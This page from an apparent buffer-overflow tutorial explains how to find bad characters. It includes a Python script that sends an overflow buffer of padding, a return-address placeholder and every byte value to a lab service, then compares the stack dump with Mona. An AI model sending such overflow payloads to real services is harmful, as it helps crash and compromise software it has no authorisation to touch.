 One important step in BOF is to identify bad characters. I followed a bit different way to find all bad characters.
```Pyrhon
#!/usr/bin/python

import socket,sys

badchar_test = ""
badchars = [0x00, 0x0A]
RHOST = "192.168.0.227"
RPORT = 31337

for i in range(0x00, 0xFF+1):
    if i not in badchars:
        badchar_test += chr(i)
        
with open("badchar_test.bin", "wb") as f:
    f.write(badchar_test)
    
buffer = "A"*146 + "B"*4 + badchar_test

try:
    s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((RHOST,RPORT))
    s.send((buffer + "\r\n"))
    s.close()
    
except:
    print("Error connecting to server")
    sys.exit
```
When we run this script against the vulnerable program, it will generate a file called "badcahr_test.bin". After the crash, right click on ESP and click on "Follow in Dump":

![Badchars Dump](badcharsDump.png)

We can now bring our badchars_test.bin to our Windows VM by using
```python -m SimpleHTTPServer 80```

And with the help of Mona modules, we can compare the file to the actual badchars in the dump:

![Find Badchars](findBadchars.png)

We can see x00 and x0A are bad characters that we need to omit in our custom payload.

[<= Go Back to BOF Menu](BOFMain.md)

[<= Go Back to Main Menu](index.md)

